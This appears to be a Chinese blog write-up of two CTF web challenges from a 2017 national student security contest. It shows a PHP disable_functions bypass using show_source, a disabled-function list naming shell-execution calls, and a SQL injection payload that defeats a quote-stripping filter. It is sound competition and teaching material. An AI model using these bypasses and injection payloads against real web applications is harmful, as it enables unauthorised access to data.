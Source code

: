 ```yaml
---
title: 国赛的两个Web题
date: 2017-09-10 15:58:56
tags:
	- CTF
	- 全国大学生信息安全竞赛
	- Writeup
---
```

在全国大学生信息安全竞赛(线上赛)上划了波水，对我来说题目挺难的，好多姿势都没见过。
<!-- more -->

## 0x00 两个最简单的Web的题解


### Web-PHP execise
这个题目考察了PHP的几个简单的语法
首先在题目中执行phpinfo()函数
![image](https://image.mengsec.com/Web-PHPexcise-1.png)
在其中的找到被禁用的函数

```
disable_functions
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,fopen,file_get_contents,fread,file_get_contents,file,readfile,opendir,readdir,closedir,rewinddir,
```
然后通过getcwd()函数获取服务器当前目录路径
```
echo getcwd()
```
![image](https://image.mengsec.com/Web-PHPexcise-2.png)
从而获取路径

```
/var/www/html
```
然后获取当前目录下的所有文件的文件名
```p&#39;h&#39;p
$dir="/var/www/html";print_r(scandir($dir))
```
![image](https://image.mengsec.com/Web-PHPexcise-3.png)
判断flag在flag_62cfc2dc115277d0c04ed0f74e48e3e9.php这个文件中，但是PHP几乎所有对文件操作的函数都被禁用了。在这时想到了以前表哥们给我们出题的时候，有的Web题的源码直接显示在网页上了，利用的show_source()函数.于是乎：

```
include"flag_62cfc2dc115277d0c04ed0f74e48e3e9.php";show_source("flag_62cfc2dc115277d0c04ed0f74e48e3e9.php")
```
从而获取flag

![image](https://image.mengsec.com/Web-PHPexcise-4.png)

### Web-wanna to see your hat?
这题有毒，不拿到flag就给你10个绿帽子。。(╯‵□′)╯︵┻━┻

主要考察的代码审计和SQL注入。首先有一个SVN源码泄露漏洞，利用工具将网站所有的源码下载下来，进行审计。关键代码如下:

```
$_POST=d_addslashes($_POST);
$_GET=d_addslashes($_GET);
function d_addslashes($array){
        foreach($array as $key=>$value){
        if(!is_array($value)){
            !get_magic_quotes_gpc() && $value=addslashes($value);
            waf($value);
            $array[$key]=$value;
        }   
    }   
    return $array;
}
function waf($value){
    $Filt = "\bUNION.+SELECT\b|SELECT.+?FROM";
    if (preg_match("/".$Filt."/is",$value)==1){
        die("found a hacker");
    }
    $value = str_replace(" ","",$value);  
    return $value;
}
if (isset($_POST["name"])){
  $name = str_replace("'", "", trim(waf($_POST["name"])));
  if (strlen($name) > 11){
    echo("<script>alert('name too long')</script>");
  }else{
    $sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
    echo $sql;
    $result = mysql_query($sql);
    $row = mysql_fetch_array($result);
    if ($row[0]){
      $_SESSION['hat'] = 'black';
      echo 'good job';
    }else{
	$_SESSION['hat'] = 'green';
    }
```
最终目的是令$_SESSION['hat'] = 'black';这也就意味着在执行SQL语句时，可以返回数据。但是，在register.php的插入语句为

```
$sql = "insert into t_user (username,nickname,password) values('".$_POST['username']."', '".$_POST['nickname']."','".md5($_POST['password'])."')";
```
它注册时写入数据的表与登陆时查询的表不是一个，这也把我的思路带偏了，我一开始认为，在register.php里面构造语句在t_info表中插入数据。但根据查到的资料显示，SQL只允许一个插入语句对一个表操作。没辙了。。去请教表哥们。
关键点在login.php，即登录界面。
关键语句
```
$name = str_replace("'", "", trim(waf($_POST["name"])));
```
在POST传入name时，如果传进的字符串中有“'”单引号，则会被加上反斜杠进行转义，然后在waf里面，若有空格则会被去掉。然后“\'”中的单引号被去掉，成为了“\”,若这个反斜杠在结尾，则会把 
```
$sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
```
第一个name的第二个单引号转义，导致

```
$name' or nickname =
```
成为了字符串。因此令

```
name==(0)=1#'	
```
最终执行的SQL语句为
```
$sql = "select count(*) from t_info where username = '=(0)=1#\' or nickname = '=(0)=1#\'";
```
该语句为真，因此返回数据，使得$_SESSION['hat'] = 'black';从而返回flag
![image](https://image.mengsec.com/Web-green-1.png)
